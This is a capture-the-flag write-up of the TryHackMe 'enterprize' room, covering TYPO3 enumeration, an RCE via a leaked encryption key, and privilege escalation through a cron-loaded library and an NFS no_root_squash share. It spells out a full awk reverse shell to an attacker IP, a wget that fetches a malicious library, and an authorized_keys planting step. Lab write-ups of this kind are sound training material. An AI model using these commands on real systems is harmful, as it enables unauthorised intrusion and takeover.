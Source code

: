 # enterprize

https://tryhackme.com/room/enterprize

## Scan

![image](https://github.com/Roqlane/enterprise/assets/78229498/300f7df1-b51d-4a95-bc79-c7490746de91)

There is 2 open ports: ssh and http

## Web enumeration

![image](https://github.com/Roqlane/enterprise/assets/78229498/f9959969-f0bf-4b82-b9bd-166a7a43eef9)

Well, let's see what we got:

`gobuster dir -u "http://10.10.40.31" -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -x .php, .txt`

![image](https://github.com/Roqlane/enterprise/assets/78229498/823e8138-0c0f-459b-ae69-0bfa52b80de8)

![image](https://github.com/Roqlane/enterprise/assets/78229498/51c177b4-cef4-455b-9962-84bcee7fb6a1)

So we have a config for the typo3 CMS but even after trying other wordlists, this is all I get. Then, are there subdomains on the machine ? Let's find out.

`wfuzz -u "http://enterprize.thm" -H "Host:FUZZ.enterprize.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

![image](https://github.com/Roqlane/enterprise/assets/78229498/7072e61b-0b6b-4d0a-8d2a-e6a6b38cd1e8)


Let's filter out the responses that have the same number of words.

`wfuzz -u "http://enterprize.thm" -H "Host:FUZZ.enterprize.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c --hw 5`

![image](https://github.com/Roqlane/enterprise/assets/78229498/d62aea2c-4393-4b8f-b73c-8f3ff87f1e87)

So this subdomain looks like this. This is effectively a TYPO3 CMS.

![image](https://github.com/Roqlane/enterprise/assets/78229498/f58d1b1e-67db-4749-ad40-5350f1b41fac)

Continuing our enumeration we find a very insteresting file that give us an encryption key that may be used for an exploit.

![image](https://github.com/Roqlane/enterprise/assets/78229498/5d3058ff-cf43-4650-a3cd-8830cbaf071c)

![image](https://github.com/Roqlane/enterprise/assets/78229498/cf97208f-f496-4eb9-86a2-9551271d3bfd)

![image](https://github.com/Roqlane/enterprise/assets/78229498/95e194a3-ee8a-456f-aceb-708daa787058)


I found this tool that allows an enumeration of TYPO3 vulnerabilities.

TODO: typo3 scan

## Webshell

Then after hours of research, I found this article speaking about an RCE vulnerability https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution. Basically, all we have to do is to try to upload a file in /fileadmin/_temp_/ directory.
To do so we first have to use guzzle to encode our payload and path we want our file to be uploaded at. Then we create a php script that hashes our payload using hmac function and the encryption key. Then, I used burpsuite to intercept the request of the form (located at http://maintest.enterprize.thm/index.php?id=38) and concatenated the payload and the hash in the request.
I tried a few things but it didn't work:

![image](https://github.com/Roqlane/enterprise/assets/78229498/95d63905-8327-4fa5-9af4-aa454262d8e2)

![image](https://github.com/Roqlane/enterprise/assets/78229498/86885981-7cd3-4c7a-ae3d-6bb3a16025d0)

![image](https://github.com/Roqlane/enterprise/assets/78229498/7bdfe646-1dfe-4643-88ab-072f69d875d5)

Hmmmm, maybe a php version problem. It doesn't change anything on the hmac version but maybe it changes the result of the guzzle. Changing my php version to 7.2. I first thought it hasn't change anything to the payload but after double checking the results were quite different so I give it a try:

![image](https://github.com/Roqlane/enterprise/assets/78229498/c5af8fc2-090d-434d-8262-7f009e3f4abf)

![image](https://github.com/Roqlane/enterprise/assets/78229498/f03782f6-c57d-45e0-b338-5776a279c1f8)

It works !!! Now we have to get our reverse shell, testing several commands, it was the awk one who worked.

`awk 'BEGIN {s = "/inet/tcp/0/10.9.164.243/6969"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`

Encode it and then

`http://maintest.enterprize.thm/fileadmin/_temp_/kitty.php?1=awk%20%27BEGIN%20%7Bs%20%3D%20%22%2Finet%2Ftcp%2F0%2F10.9.164.243%2F6969%22%3B%20while(42)%20%7B%20do%7B%20printf%20%22shell%3E%22%20%7C%26%20s%3B%20s%20%7C%26%20getline%20c%3B%20if(c)%7B%20while%20((c%20%7C%26%20getline)%20%3E%200)%20print%20%240%20%7C%26%20s%3B%20close(c)%3B%20%7D%20%7D%20while(c%20!%3D%20%22exit%22)%20close(s)%3B%20%7D%7D%27%20%2Fdev%2Fnull`

![image](https://github.com/Roqlane/enterprise/assets/78229498/405254c8-a683-4bb9-b872-f5095e64efb0)


## Privesc to john

Enumerating the machine, we find a program located at /home/john/develop

![image](https://github.com/Roqlane/enterprise/assets/78229498/21e38a2c-b0e0-4f3e-a823-e1a0cee31f7d)

It doesn't seem to do something interesting, let's run ldd to see which libraries, it is using.

![image](https://github.com/Roqlane/enterprise/assets/78229498/1f8f6673-cd96-44ee-bb45-2589bf3b538c)

![image](https://github.com/Roqlane/enterprise/assets/78229498/0f77e014-cdab-443e-a9fd-aede982832bc)


While doing all these steps, I found that the modification time of the result.txt file changed. So we must have cron job running in the background. Knowing all these we then have to create a libcustom.so that will hold a reverse shell and create the test.conf.

![image](https://github.com/Roqlane/enterprise/assets/78229498/3b95981a-ee40-4f8c-80f9-61ce98d0a64a)

`echo "/home/john/develop/" > /home/john/develop/test.conf`

I ran a http server in order to retrieve the new libcustom

`cd /home/john/develop/; wget http://MY_IP_ADDRESS/libcustom.so`

![image](https://github.com/Roqlane/enterprise/assets/78229498/0339b28a-3df8-42ff-9c62-3f6a6ce17b02)

After few minutes

![image](https://github.com/Roqlane/enterprise/assets/78229498/c51cee60-06a6-42e1-a7cb-5cfd972f121e)


## Get the root

We see that the port 2049 (nfs) is open, displaying the /etc/exports we found that the /var/nfs is configured with the no_root_squash option

![image](https://github.com/Roqlane/enterprise/assets/78229498/0de63e6e-58db-4fcd-9979-76ec68c38bc6)

![image](https://github.com/Roqlane/enterprise/assets/78229498/73bd413d-b0ef-49bd-ad46-78c4ffbf6a6a)

Since the nfs service is running on localhost, we need to do a port forwarding with our machine. To make the process work, we first need to create a ssh config with the user john. 

`echo "YOUR KEY" > .ssh/authorized_keys`

On your machine:

`ssh -N -L 127.0.0.1:2049:127.0.0.1:2049 john@IP_ADDRESS`

`sudo mount -t nfs -o port=2049 127.0.0.1:/var/nfs /tmp/kitty`

Create the suid file.

![image](https://github.com/Roqlane/enterprise/assets/78229498/7e59a75d-a3d7-4662-a0c2-12f1d94448d9)

![image](https://github.com/Roqlane/enterprise/assets/78229498/60884e32-f443-4e0a-a9e5-e9018c6da548)






